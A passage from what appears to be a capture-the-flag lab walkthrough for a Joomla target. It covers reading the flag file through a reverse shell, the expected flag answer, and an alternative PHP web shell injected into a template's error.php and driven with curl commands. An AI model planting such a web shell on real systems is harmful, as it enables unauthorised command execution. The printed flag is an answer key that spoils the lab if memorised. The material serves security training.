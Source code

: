#### Step 5: Flag Discovery via Reverse Shell
```bash
# Once reverse shell is established:
www-data@app01:/var/www/dev.inlanefreight.local/templates/protostar$

# Navigate to web root and find flag
cd /var/www/dev.inlanefreight.local/
ls -la

# Look for flag files (specific format)
ls -la flag_*

# Read the flag file
cat flag_6470e394cbf6dab6a91682cc8585059b.txt

# Alternative: Search for flag pattern
find /var/www -name "*flag*" -type f 2>/dev/null
grep -r "j00mla" /var/www/ 2>/dev/null
```

#### Step 6: Expected Output and Answer
```bash
# Expected flag file location:
/var/www/dev.inlanefreight.local/flag_6470e394cbf6dab6a91682cc8585059b.txt

# Flag content:
j00mla_c0re_d1rtrav3rsal!

# Answer format:
j00mla_c0re_d1rtrav3rsal!
```

### Alternative Method: Web Shell Instead of Reverse Shell

#### PHP Web Shell Injection
```php
# Inject simple web shell into error.php
<?php
if (isset($_GET['cmd'])) {
    echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
}
?>

# Test web shell
curl "http://dev.inlanefreight.local/templates/protostar/error.php?cmd=id"

# Find flag via web shell
curl "http://dev.inlanefreight.local/templates/protostar/error.php?cmd=find+/var/www+-name+'*flag*'"
curl "http://dev.inlanefreight.local/templates/protostar/error.php?cmd=cat+/var/www/dev.inlanefreight.local/flag_6470e394cbf6dab6a91682cc8585059b.txt"
```
